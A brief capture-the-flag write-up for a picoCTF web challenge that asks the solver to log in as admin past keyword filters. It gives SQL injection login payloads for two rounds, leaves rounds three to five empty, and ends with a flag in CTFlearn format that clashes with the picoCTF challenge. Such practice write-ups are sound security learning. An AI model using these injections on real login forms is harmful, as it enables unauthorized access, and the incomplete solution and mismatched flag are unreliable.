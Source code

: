 # Web Gauntlet ❓
Tags: Web Exploitation<br>
Point: 200<br>
AUTHOR: MADSTACKS<br>
Description:<br>
Can you beat the filters? Log in as admin<br>
http://jupiter.challenges.picoctf.org:54319/ <br>
http://jupiter.challenges.picoctf.org:54319/filter.php


## Write-up: 📝
We have to get through all 5 SQLi challenges. One link gives the form , display query after wrong credential submission or nothing if the query statement contains filtered words.
The other links show the filtered words.
## Solution: 💯
### Round 1:

Filter: `or`

Login as admin so the username=admin, and sqli here.

User: `admin' --`

Pass: `123456` (arbitary string)

### Round 2:

Filter: `or and like = --`

Login as admin. Change comment out operator "--" to "/*"

User: `admin' /*`

Password: `123456` (arbitary string)


### Round 3:
### Round 4:
### Round 5:

#### The Flag (for reference): ✔️
```
CTFlearn{p0st_d4t4_4ll_d4y}
```

